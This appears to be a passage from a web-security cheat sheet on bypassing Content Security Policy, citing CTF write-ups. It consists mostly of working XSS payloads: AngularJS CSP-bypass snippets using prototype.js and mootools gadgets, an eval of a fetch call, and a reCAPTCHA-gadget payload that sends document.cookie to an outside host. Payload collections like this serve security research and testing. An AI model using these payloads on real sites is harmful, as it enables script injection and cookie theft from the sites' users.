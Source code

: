 ```javascript


"><script src="https://cdnjs.cloudflare.com/angularjs/1.1.3/angular.min.js"> </script>
<div ng-app ng-csp id=p ng-click=$event.view.alert(1337)>


With some bypasses from: https://blog.huli.tw/2022/08/29/en/intigriti-0822-xss-author-writeup/
<script/src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js></script>
<iframe/ng-app/ng-csp/srcdoc="
  <script/src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.0/angular.js>
  </script>
  <img/ng-app/ng-csp/src/ng-o{{}}n-error=$event.target.ownerDocument.defaultView.alert($event.target.ownerDocument.domain)>"
>
```
Payloads using Angular + a library with functions that return the window object:
[Post](https://blog.huli.tw/2022/09/01/en/angularjs-csp-bypass-cdnjs/)
```javascript
<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.8/angular.js" /></script>
<div ng-app ng-csp>
 {{$on.curry.call().alert(1)}}
 {{[].empty.call().alert([].empty.call().document.domain)}}
 {{ x = $on.curry.call().eval("fetch('http://localhost/index.php').then(d => {})") }}
</div>


<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script>
<div ng-app ng-csp>
  {{$on.curry.call().alert('xss')}}
</div>


<script src="https://cdnjs.cloudflare.com/ajax/libs/mootools/1.6.0/mootools-core.min.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script>
<div ng-app ng-csp>
  {{[].erase.call().alert('xss')}}
</div>
```

**Abusing google recaptcha JS code**
According to [this CTF writeup](https://blog-huli-tw.translate.goog/2023/07/28/google-zer0pts-imaginary-ctf-2023-writeup/?_x_tr_sl=es&_x_tr_tl=en&_x_tr_hl=es&_x_tr_pto=wapp#noteninja-3-solves) you can abuse https://www.google.com/recaptcha/ inside a CSP to executa arbitrary JS code bypassing the CSP:
```javascript
<div
  ng-controller="CarouselController as c"
  ng-init="c.init()"
>
&#91[c.element.ownerDocument.defaultView.parent.location="http://google.com?"+c.element.ownerDocument.cookie]]
<div carousel><div slides></div></div>

<script src="https://www.google.com/recaptcha/about/js/main.min.js"></script>

```
-----
**Third Party Endpoints + JSONP**
```javascript
Content-Security-Policy: script-src 'self' https://www.google.com https://www.youtube.com; object-src 'none';
```
